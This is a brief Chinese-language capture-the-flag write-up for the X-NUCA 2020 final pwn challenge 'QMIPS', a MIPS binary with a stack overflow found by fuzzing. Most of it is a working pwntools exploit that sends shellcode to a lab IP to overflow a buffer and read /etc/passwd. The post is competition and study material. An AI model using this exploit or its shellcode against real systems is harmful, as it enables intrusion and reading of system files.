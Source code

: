 ```yaml
---
title: X-NUCA 2020 Final 团队赛：QMIPS
date: 2020-12-11 00:00:00
categories:
- CTF/Pwn
tags: X-NUCA XNUCA
---
```


> 更新中...又是瞎发包测出来的栈溢出，给出的MIPS程序IDA7.5居然没法分析：

附件：[qmips.zip](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/qmips.zip)

```python
from pwn import *
context(arch='mips',endian='big')

shellcode = asm(shellcraft.mips.linux.cat("/etc/passwd",7))
payload = shellcode.ljust(544,'a') + p32(0x418290)
io = remote("10.10.10.135",8000)
io.send(payload)
io.interactive()
```

- [西湖论剑IoT && X-NUCA && KCTF Q3](https://ama2in9.top/2020/12/19/xihulunjian/)